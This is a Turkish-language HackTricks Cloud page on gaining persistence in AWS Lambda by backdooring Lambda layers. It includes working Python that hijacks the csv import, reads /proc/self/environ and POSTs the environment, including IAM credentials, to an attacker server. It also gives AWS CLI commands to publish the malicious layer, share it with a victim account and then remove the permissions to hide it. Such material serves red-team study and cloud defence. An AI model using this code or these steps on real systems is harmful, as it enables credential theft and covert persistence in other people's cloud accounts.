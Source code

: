 # AWS - Lambda Katmanları Sürekliliği

{% hint style="success" %}
AWS Hackleme Öğrenin ve Pratik Yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hackleme Öğrenin ve Pratik Yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Lambda Katmanları

Bir Lambda katmanı, **ekstra kod** veya diğer içerikleri **içerebilen** bir .zip dosyası arşividir. Bir katman, kütüphaneler, bir [özel çalışma zamanı](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), veri veya yapılandırma dosyaları içerebilir.

Her işlev için **beş katmana kadar** dahil etmek mümkündür. Bir işlevde bir katman dahil ettiğinizde, **içerikler yürütme ortamındaki `/opt`** dizinine çıkarılır.

**Varsayılan olarak**, oluşturduğunuz **katmanlar** AWS hesabınıza **özel** olarak ayarlanmıştır. Bir katmanı diğer hesaplarla **paylaşmayı** veya katmanı **genel** hale getirmeyi seçebilirsiniz. Eğer işlevleriniz, farklı bir hesap tarafından yayımlanan bir katmanı kullanıyorsa, işlevleriniz **katman silindikten sonra veya katmana erişim izniniz geri alındıktan sonra katman sürümünü kullanmaya devam edebilir**. Ancak, silinmiş bir katman sürümünü kullanarak yeni bir işlev oluşturamaz veya işlevleri güncelleyemezsiniz.

Konteyner görüntüsü olarak dağıtılan işlevler katmanları kullanmaz. Bunun yerine, görüntüyü oluşturduğunuzda tercih ettiğiniz çalışma zamanı, kütüphaneler ve diğer bağımlılıkları konteyner görüntüsüne paketlersiniz.

### Python yükleme yolu

Lambda'da Python'un kullanacağı yükleme yolu şudur:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Kontrol edin nasıl **ikinci** ve üçüncü **pozisyonlar** **lambda katmanlarının** dosyalarını açtığı dizinler tarafından işgal ediliyor: **`/opt/python/lib/python3.9/site-packages`** ve **`/opt/python`**

{% hint style="danger" %}
Eğer bir saldırgan kullanılan bir lambda **katmanına** **arka kapı** koymayı veya **bir tane eklemeyi** başarırsa ve bu, **yaygın bir kütüphane yüklendiğinde rastgele kod çalıştırıyorsa**, her lambda çağrısında kötü niyetli kod çalıştırabilecektir.
{% endhint %}

Bu nedenle, gereksinimler şunlardır:

* **Kurbanların kodu tarafından yüklenen kütüphaneleri kontrol et**
* **Özel kodu çalıştıracak ve orijinal** kütüphaneyi **yükleyecek bir proxy kütüphanesi oluştur.**

### Önceden yüklenmiş kütüphaneler

{% hint style="warning" %}
Bu tekniği kötüye kullanırken bir zorlukla karşılaştım: Bazı kütüphaneler kodunuz çalıştırıldığında python çalışma zamanında **zaten yüklenmiş** durumda. `os` veya `sys` gibi şeyler bulmayı bekliyordum, ama **hatta `json` kütüphanesi bile yüklüydü**.\
Bu kalıcılık tekniğini kötüye kullanmak için, kodun çalıştırıldığı sırada **yüklenmemiş yeni bir kütüphaneyi yüklemesi** gerekiyor.
{% endhint %}

Bu gibi bir python kodu ile lambda içinde python çalışma zamanında **önceden yüklenmiş kütüphanelerin listesini** elde etmek mümkündür:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Ve bu **liste** (kütüphanelerin `os` veya `json` gibi zaten orada olduğundan emin olun)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Ve bu, **lambda'nın varsayılan olarak yüklediği kütüphaneler** listesidir: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Katmanı Arka Kapısı

Bu örnekte, hedef kodun **`csv`**'yi içe aktardığını varsayalım. **`csv` kütüphanesinin içe aktarımına arka kapı koyacağız**.

Bunu yapmak için, **`/opt/python/lib/python3.9/site-packages`** yolunda **csv** adlı bir dizin oluşturacağız ve içine **`__init__.py`** dosyasını koyacağız.\
Daha sonra, lambda çalıştırıldığında ve **csv**'yi yüklemeye çalıştığında, **`__init__.py` dosyamız yüklenecek ve çalıştırılacaktır**.\
Bu dosya şunları yapmalıdır:

* Yükleme yükümüzü çalıştırmak
* Orijinal csv kütüphanesini yüklemek

Her ikisini de şu şekilde yapabiliriz:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Sonra, bu kodu **`python/lib/python3.9/site-packages/__init__.py`** yolunda bir zip dosyası oluşturun ve bunu bir lambda katmanı olarak ekleyin.

Bu kodu [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) adresinde bulabilirsiniz.

Entegre yük, **ilk kez çağrıldığında veya lambda konteynerinin sıfırlanmasından sonra IAM kimlik bilgilerini bir sunucuya gönderecektir** (kod değişikliği veya soğuk lambda), ancak **aşağıdaki gibi diğer teknikler** de entegre edilebilir:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Harici Katmanlar

**Harici hesaplardan lambda katmanları kullanmanın mümkün olduğunu** unutmayın. Ayrıca, bir lambda, izinleri olmasa bile harici bir hesaptan bir katmanı kullanabilir.\
Ayrıca, bir lambda'nın sahip olabileceği **maksimum katman sayısının 5 olduğunu** unutmayın.

Bu nedenle, bu tekniğin çok yönlülüğünü artırmak için bir saldırgan şunları yapabilir:

* Kullanıcının mevcut bir katmanını arka kapı ile ele geçirmek (hiçbir şey harici değil)
* **Kendi hesabında** bir **katman oluşturmak**, **kurban hesabına** katmanı kullanma erişimi vermek, **katmanı** kurbanın Lambda'sında **yapılandırmak** ve **izinleri kaldırmak**.
* **Lambda**, **katmanı** kullanmaya devam edebilecek ve **kurban**, **katman kodunu indirmek için** kolay bir yol bulamayacaktır (lambda içinde bir rev shell elde etmek dışında).
* Kurban, **`aws lambda list-layers`** ile kullanılan harici katmanları **görmeyecek**. 

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
